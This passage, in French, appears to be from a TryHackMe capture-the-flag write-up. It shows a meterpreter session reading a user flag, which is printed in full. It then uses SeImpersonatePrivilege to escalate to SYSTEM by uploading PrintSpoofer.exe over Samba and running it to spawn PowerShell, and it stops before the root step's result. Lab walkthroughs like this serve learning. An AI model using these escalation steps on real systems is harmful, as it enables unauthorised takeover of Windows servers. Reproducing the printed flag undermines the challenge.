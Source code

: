 ```
=============================

Mode              Size  Type  Last modified              Name
----              ----  ----  -------------              ----
100666/rw-rw-rw-  35    fil   2020-07-25 11:24:43 -0400  user.txt

meterpreter > cat user.txt
THM{fdk4ka34vk346ksxfr21tg789ktf45}
```
Hop Je récupère le flag user.txt 

Réponse 1 : **THM{fdk4ka34vk346ksxfr21tg789ktf45}**

# Root Flag

On va voir quels sont les droits dont je dispose : avec la commande getprivs
```
meterpreter > getprivs

Enabled Process Privileges
==========================

Name
----
SeAssignPrimaryTokenPrivilege
SeAuditPrivilege
SeChangeNotifyPrivilege
SeCreateGlobalPrivilege
SeImpersonatePrivilege
SeIncreaseQuotaPrivilege
SeIncreaseWorkingSetPrivilege
```
Je dispode du privilège **SeImpersonatePrivilege** qui permet : « Emprunter l’identité d’un client après l’authentification » 

Intéréssant !

Regardon sur internet comment exploiter ce privilège. 

D'après la toile, il faut utiliser **PrintSpoofer.exe** qui permetterait d'exploiter le privilège d'usurpation d'identité pour obtenir un jeton SYSTEM, puis exécuter une commande personnalisée avec CreateProcessAsUser() 
Je vais donc récupérer le fichier PrintSpoofer.exe via github : 

[Github][https://github.com/k4sth4/PrintSpoofer/blob/main/PrintSpoofer.exe]

Je vais le mettre sur le serveur samba 

```
put PrintSpoofer.exe

putting file PrintSpoofer.exe as \PrintSpoofer.exe (165.6 kb/s) (average 71.7 kb/s)
```
Je vais me rendre, avec le meterpreter, dans le dossier ou à été téléchargé le fichier et je vais lancer un shell.  
```
cd c:\inetpub\wwwroot\nt4wrksv

shell
```
Comme le dit le README.md présent sur la page Github, il faut jouer cette commande : 
```
PrintSpoofer.exe -i -c powershell.exe
```
Je vais voir qui je suis 
